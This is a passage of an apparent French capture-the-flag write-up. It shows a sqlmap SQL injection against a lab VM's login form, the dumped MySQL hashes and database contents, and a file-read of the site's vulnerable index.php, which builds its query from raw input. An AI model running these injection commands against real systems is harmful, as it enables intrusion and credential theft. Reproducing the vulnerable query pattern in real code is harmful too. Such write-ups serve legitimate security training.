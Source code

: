 Sur le port 80 se trouve un site web minimaliste avec un script index.php qui prend un paramètre *page*.  

Il contient un formulaire de connexion (username et password) que j'attaque avec SQLmap :  

```bash
python sqlmap.py -u http://192.168.1.53/index.php?page=login --data="user=test&password=test" -p user --dbms=mysql --current-user
```

J'obtiens en vrac les informations suivantes (en changeant le dernier paramètre) :  

```plain
web server operating system: Linux Debian 6.0 (squeeze)
web application technology: PHP 5.3.3, Apache 2.2.16
back-end DBMS: MySQL >= 5.0.0
[19:07:45] [INFO] fetching current user
[19:07:45] [INFO] retrieved: root@localhost
current user:    'root@localhost'
current database:    'user_db'

debian-sys-maint:*1DA3475E6E4482C9931E9FE23FF02A543E375E08
root:*0AC55189DF8ACE402E133C48FB045DC09E81B516
root:*1DA3475E6E4482C9931E9FE23FF02A543E375E08

Database: user_db
Table: users
[1 entry]
+------------------------------+--------+
| pass                         | user   |
+------------------------------+--------+
| totally not helpful password | root   |
+------------------------------+--------+
```

Avec *--file-read=/var/www/index.php* je récupère le contenu du index.php :  

```php
<?php
if(!isset($_GET['page']))
{
        header("Location: /index.php?page=main");
        exit();
}
?>
<html>
<head>
</head>
<body>
<a href="/index.php?page=main">Main</a><br/>
<a href="/index.php?page=login">Login</a><br/>
<a href="/index.php?page=contact.php">Contact Us</a><br/>
<?php
$page = basename($_GET['page']);
print(file_get_contents($page));
?>
<?php
if(isset($_POST['user']) && isset($_POST['password']))
{
        $user = $_POST['user'];
        $pass = $_POST['password'];

        $link = mysql_connect("localhost", "root", "some bad pass");
        mysql_select_db("user_db");
        $query = "SELECT * FROM users WHERE user='".$user."' AND pass='$pass'";
        $result = mysql_query($query) or die(mysql_error());
        if(mysql_num_rows($result) === 1)
```